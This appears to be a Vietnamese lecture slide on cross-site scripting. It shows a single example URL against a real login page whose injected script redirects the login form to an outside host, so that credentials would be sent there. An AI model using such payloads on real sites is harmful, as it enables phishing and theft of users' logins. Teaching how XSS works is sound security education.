

# Cross-Site Scripting
Truy vấn có chèn script
http://login.me.zing.vn/login/fail?p="><script>var list = document.getElementsByTagName ("form")[0];list.setAttribute("action","http://zing.net76.net");</script>
17